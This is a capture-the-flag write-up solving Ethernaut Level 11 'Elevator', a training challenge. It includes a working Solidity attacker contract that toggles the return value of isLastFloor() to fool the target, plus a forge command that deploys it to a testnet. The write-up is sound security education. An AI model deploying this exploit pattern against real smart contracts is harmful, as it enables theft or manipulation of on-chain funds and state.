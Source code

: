 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/11-elevator.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 11 - Elevator</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 11 - Elevator](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-11-elevator)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Goals

<img src="../assets/requirements/11-elevator-requirements.webp" width="800px"/>

## The hack

The Elevator is a level that is supposed to elevate (!) our knowledge about smart contract interface. An interface defines function signatures, but not their logic. This is a way to interact with other contracts without having to know the implementation details.

However, in this case, we can create our Building instance and use it to define our version of the `isLastFloor()` function.

```javascript
function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (!building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
```

In the `goTo` function, `isLastFloor` is called twice. The first time with any value (this will set the last floor), and the second time with the floor we want to go to. We can use this to our advantage by crafting a `isLastFloor()` that will return `false` the first time and `true` the second time.

This will allow us to reach the top of the building.

## Solution

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IElevator {
    function goTo(uint256 _floor) external;
}

contract StairwayToHeaven {
    bool private toogle;
    IElevator private elevator;

    constructor(address _elevator) {
        elevator = IElevator(_elevator);
    }

    // Implement the isLastFloor function to return false the first time (set
    // the floor to any uint value) and true the second time to go to the top
    function isLastFloor(uint) public returns (bool) {
        toogle = !toogle;
        return toogle;
    }

    // Pick your number :)
    function attack(uint256 _floor) external {
        elevator.goTo(_floor);
    }
}
```

Then, you can use forge scripts to deploy the contract and call the `attack` function with the floor you want to go to.

```bash
forge script script/11_Elevator.s.sol:PoC --rpc-url sepolia --broadcast --watch
```

## Takeaway

- Interfaces are a way to interact with other contracts without having to know the implementation details...
- ... so never trust them blindly!

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
